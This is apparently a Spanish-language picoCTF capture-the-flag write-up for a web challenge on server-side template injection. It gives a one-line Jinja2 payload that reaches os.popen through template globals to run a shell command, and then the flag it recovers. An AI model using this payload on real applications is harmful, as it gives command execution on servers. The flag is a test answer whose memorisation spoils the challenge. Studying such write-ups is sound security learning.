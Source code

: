 ## Descripción

I made a cool website where you can announce whatever you want! Try it out!I heard templating is a cool and modular way to build web apps! Check out my website [here](http://rescued-float.picoctf.net:65093/)!

## Pistas

1. Server Side Template Injection

## Solución

`Ingresamos a la página y copiamos el siguiente código`
`{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('cat flag').read() }}`

`picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_3066c7bd}`

## Notas Adicionales



## Referencias
- 

